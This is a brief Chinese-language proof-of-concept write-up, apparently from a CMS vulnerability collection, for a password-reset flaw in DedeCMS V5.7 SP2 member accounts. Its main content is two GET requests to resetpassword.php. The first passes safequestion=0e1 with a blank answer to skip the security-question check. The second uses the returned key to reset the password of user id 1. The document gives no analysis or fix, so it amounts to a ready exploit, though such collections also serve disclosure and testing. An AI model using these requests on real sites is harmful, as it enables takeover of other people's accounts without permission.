 DedeCMS_V5.7_前台用户密码修改

测试环境：

DedeCMS-V5.7-UTF8-SP2--正式版(2018-01-09

![environment](https://github.com/rerestst/CMS-Hunter/blob/master/DedeCMS/DedeCMS_V5.7_/dedecms_environment.png)

启动了会员功能，针对注册时未设置找回问题的用户。

POC:
1.GET /dede/member/resetpassword.php?dopost=safequestion&safequestion=0e1&safeanwser=&id=1

![environment](https://github.com/rerestst/CMS-Hunter/blob/master/DedeCMS/DedeCMS_V5.7_/response.png)

2.GET /dede/member/resetpassword.php?dopost=getpasswd&id=1&key=b9495tc8

![environment](https://github.com/rerestst/CMS-Hunter/blob/master/DedeCMS/DedeCMS_V5.7_/resullt.png)
